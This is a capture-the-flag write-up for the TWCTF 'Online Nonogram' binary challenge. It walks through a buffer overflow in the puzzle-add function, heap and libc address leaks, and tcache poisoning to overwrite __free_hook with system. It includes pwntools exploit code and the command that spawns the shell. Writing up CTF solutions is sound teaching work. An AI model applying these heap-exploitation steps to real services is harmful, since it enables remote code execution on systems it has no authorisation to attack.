

# Online Nonogram 

Do you like the puzzle game?

[nono](./nono)
`libc.so.6`: standard ubuntu 20.04 libc version 2.31

nc pwn03.chal.ctf.westerns.tokyo 22915

## Analysis

This task is based on the [Nonogram](https://en.wikipedia.org/wiki/Nonogram) puzzle game.
The binary allows us to create new puzzles, play them, show puzzles (after we have solved them) and delete them over a simple command-line interface.
The binary is PIE, has NX and full-relro enabled.
Puzzles consist of a title and a square grid of bits (each cell can be either 0 or 1). 
Whenever we need to select a puzzle (for the play, show and delete actions), a list with the title of each puzzle is shown.

The bug in the binary is in the add function. The reversed source code for this function is:

```c++
struct Puzzle {
    int size;
    char* data;
    std::string title;
    bool solved;
};

char gbuf[0x200];
std::vector<struct Puzzle*> vec_puzzle;

void add_puzzle(void) {
  auto title = basic_string();
  std::cout << "Title: ";
  
  if (!(std::cin >> title)) {
    std::cout << "Size: ";
    size = read_int();
    if (size == 0) {
      std::cout << "input error" << std::endl;
      return;
    }

    std::cout << "Puzzle: ";
    read_cnt = read(0,gbuf,(size * size >> 3) + 1);
    if (read_cnt < 1) {
      std::cout << "input error" << std::endl;
      return;
    }
    auto title_copy = std::string(title);
    auto puzzle_mem = operator.new(0x38);
    Puzzle(puzzle_mem,&title_copy,size,gbuf);
    ~basic_string(&title_copy);
    push_back(vec_puzzle,&puzzle_this);
    std::cout << "Success" << std::endl;
  }
  else {
    clear(0x1091d0);
    ignore();
    this = operator<<<std--char_traits<char>>(cout,"input error");
    operator<<(this,endl<char,std--char_traits<char>>);
  }
  ~basic_string(&title);
  if (local_20 != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The call to `read` happens without any sizing checking, even though the buffer `gbuf` in the data section has a fixed size of 0x200 bytes.
With this bug, we can corrupt the structure representing the `vec_puzzle` vector.
The code also doesn't check if enough data has been read. If we send less than `((size * size) >> 3) + 1` bytes, we can create a puzzle with uninitialized data.

## Leaking the heap base

Nonograms are represented in memory as bitarrays. The state of each cell is a single bit.
The bitarray for a nonogram of size 92 needs `92 * 92 / 8 + 1 = 0x432` bytes.
If we only sent `0x200` zeros, then part of the data for that nonogram will be filled with the data of the `vec_puzzle` structure, since it is located immediately after the `gbuf` buffer in the data section.
Because the data section does not contain any other variables past that point, the rest of the buffer is zero.

So we can create a nonogram that contains the `vec_puzzle` structure. A vector in C++ is represented 3 pointers, `begin`, `end` (points to the end of used storage, where the next element will be placed) and `cap` (points to the end of the allocated storage). 
If we manage to solve the puzzle, we can thus leak pointers into the heap.

The nonogram puzzle has a list of hints for each row and each column. 
The hints tell us how many bits are set in each continuous group of bits within that row/column.
But unfortunately, because our puzzle is only 92 bits wide, the three pointers are not in a single column.
The following graphic illustrates how the pointers are located in our nonogram:



Black cells represent known zeros (the two most significant bytes of each pointers are always zero). 
The yellow part are the bits that are common between the pointers (depend only on ASLR). 
The red, green and blue parts are the lowest 12 bits of each pointer.
We can easily recover the bits that are the only non-zero cells in a column, since then the hint is `1` if the bit is set and `0` otherwise.
After that, we can continue to recover the bits that are only together with now-known bits in a row.
Repeating this process, we see that we can get all except four bits.
The remaining four bits luckily appear to be constant between runs and also match our local setup, so we can simply hardcode them (but they could also easily be brute-forced).

Here's the function to leak those three pointers:

```python
@context.silent
def solve_leak(idx, known_bits):
    #known_bits = [0,0,0,0]
    add_puzzle("leak", 92, b"\x00"*0x400)

    p.sendlineafter("Your input: ", "1")
    p.sendlineafter("Index:\n", str(idx))
    p.recvline_contains("Row's Numbers")

    row_numbers = [int(x.strip(b",")) for x in p.readuntil("\nColumn's Numbers\n", drop=True).split()]
    p.recvline_contains("Current Status")

    common = row_numbers[52:68] + row_numbers[32:40]
    common = common + [a - b for a,b in zip(row_numbers[76:88], known_bits + common[:8])]
    assert len(common) == 36

    beg_low = [a - b for a, b in zip(row_numbers[4:16], common[16:28])]
    end_low = [a - b for a, b in zip(row_numbers[68:80], common[16:28])]
    cap_low = [a - b for a, b in zip(row_numbers[40:52], common[-12:])]
    zeros = [0] * 16
    assert len(beg_low) == 12
    assert len(end_low) == 12
    assert len(cap_low) == 12

    beg_bits = beg_low + common + zeros
    end_bits = end_low + common + zeros
    cap_bits = cap_low + common + zeros

    actions = [(i, 89) for i, v in enumerate([0] * 4 + beg_bits + end_bits[:24]) if v]
    actions += [(i, 90) for i, v in enumerate(common[12:] + zeros + cap_bits[:52]) if v]

    p.sendlineafter(":", "".join(str(x) + " " + str(y) + "\n" for x, y in actions))
    p.recvline_contains("Congratz!")

    return u64(decode_int64(beg_bits)), u64(decode_int64(end_bits)), u64(decode_int64(cap_bits))
```

## Leaking heap data / libc address
As a next step, we want to leak the base address of libc. 
For this, we can leak data from the heap after freeing a big enough number of puzzles.
The last chunk in the linked list of free chunks will then contain a pointer into the libc `main_arena` struct, so there will be a libc pointer on the heap.

First, let's create some puzzles and free them again:

```python
for i in range(10):
    add_puzzle("tofree" + str(i), 1, b"\x01")

for _ in range(10):
    delete_puzzle(4)
```

We can now corrupt the pointers of the vec_puzzle vector.
If we point the `end` vector to some place on the heap and make sure that there is enough capacity (`cap - end >= 8`), then the next `push_back` in `add_puzzle` will write the pointer to the newly allocated puzzle at the location we set `end` to.
This primitive allows us to write a pointer to an allocated `Puzzle` struct anywhere we want on the heap.
Let's make a function for that:

```python
def write_puzzleptr_to(addr, base=None):
    add_puzzle("write", 92, flat({
        0x400: [addr, addr, addr + 8]
    }, filler=b"\0"))
    delete_puzzle(0)
    if base:
        add_puzzle("write", 92, flat({
            0x400: [base, base + 16, base + 24]
        }, filler=b"\0"))
        return

    add_puzzle("write", 92, flat({
        0x400: [orig_vec_beg, orig_vec_end, orig_vec_cap]
    }, filler=b"\0"))
```

We also make sure to reset the vector again after doing our corruption, so that we don't accidently corrupt much more later in our exploits.
Using this primitive, we can overwrite the `data` and `size` pointer of a `title` string to leak a large portion of the heap:

```python
string_addr = beg + 0x30
info("string_addr %#x", string_addr)
write_puzzleptr_to(string_addr + 4) # this will set size to the topmost 4 bytes of a puzzle address, so it will be large (but only about 16 bit, because the topmost 2 bytes are always zero)

write_puzzleptr_to(string_addr) # here we set the data pointer to point to an allocated puzzle
```

When we list the puzzles the next time (using any action that requires us to enter a puzzle id), we get a large heap dump as a title of one of the puzzles. 
We can find a libc address at some offset within this dump.

## Tcache corruption to overwrite `__free_hook` / spawn a shell
After leaking all the addresses, we can now turn to spawn a shell.
The plan here is that we want a string to be allocated at the place of `__free_hook` with controlled data.
By setting the data to the address of `system`, this will then set `__free_hook` to `system`, meaning we can execute shell commands by freeing chunks.

We do the familar tcache next pointer corruption to achieve this. First, we free some puzzles, so their structs will be placed into a tcache (a single-linked list):

```python
for i in range(5):
    add_puzzle("tcache" + str(i), 1, b"\x01")

for i in range(5):
    delete_puzzle(14)
```

When we now allocate a new puzzle, the puzzle will be allocated in the first chunk of the tcache.
Using our primitive from before, we can overwrite a `next` pointer from another chunk in the same tcache with this address.
After this, our tcache will be cyclic (because the first chunk will appear again later in tcache again).
We then just need to allocate a string of the correct size and it'll end up in the location of that puzzle, therefore allowing us to overwrite the `next` pointer of a later chunk in the same tcache with arbitrary data.

```python
tcache_next_addr = beg + 0x12c0
# we need some valid puzzles to free, there appear to be some valid pointers at beg + 0x1320
write_puzzleptr_to(tcache_next_addr, base=beg + 0x1320) 
delete_puzzle(2)
delete_puzzle(1)
delete_puzzle(0)
add_puzzle(flat({
    0x0: p64(libc.symbols.__free_hook),
}, length=0x31), 1, b"\x01")
```

After this, we now allocate some more chunks until our `__free_hook` chunk is at the correct place (the correct amount can be found with a debugger) in the tcache linked list and then overwrite the `__free_hook` with system:

```python
for _ in range(2):
    add_puzzle("claim", 1, b"\x01")

add_puzzle(flat({
    0x0: p64(libc.address + 0x55410),
}, length=0x31), 1, b"\x01", check=False)

```

Now, we can simply make a new puzzle with a title containing a shell command to get an interactive shell:

```python
p.sendline("")
p.sendlineafter("Your input: ", "2")
p.sendline("bash;test#################################################1\n\n\n\n\n")
```

And cat the flag: `TWCTF{watashi_puzzle_daisuki_mainiti_yatteru}`
